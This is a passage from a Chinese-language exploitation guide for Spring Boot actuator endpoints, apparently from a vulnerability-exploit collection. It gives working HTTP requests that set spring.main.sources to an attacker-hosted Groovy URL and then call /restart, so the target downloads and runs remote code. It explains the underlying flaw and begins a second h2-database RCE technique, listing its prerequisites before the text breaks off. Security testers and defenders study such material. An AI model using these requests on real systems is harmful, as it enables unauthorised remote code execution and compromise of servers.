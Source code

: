 spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"spring.main.sources","value":"http://your-vps-ip/example.groovy"}
```

##### 步骤三：重启应用

spring 1.x

```http
POST /restart HTTP/1.1
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```http
POST /actuator/restart HTTP/1.1
Content-Type: application/json

```

#### 漏洞原理

1. 目标机器可以通过 spring.main.sources 属性来设置创建 ApplicationContext 的额外源的 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `spring-boot` 组件中的 `org.springframework.boot.BeanDefinitionLoader.java` 文件代码逻辑中会判断 url 是否以 `.groovy` 结尾
4. 如果 url 以 `.groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞

#### 漏洞环境

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```url
http://127.0.0.1:9098/actuator/env
```

### 0x0C：restart spring.datasource.data h2 database RCE

#### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- 环境中需要存在 `h2database`、`spring-boot-starter-data-jpa` 相关依赖
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 h2 sql 语法内容的文件，会导致程序异常退出

#### 利用方法
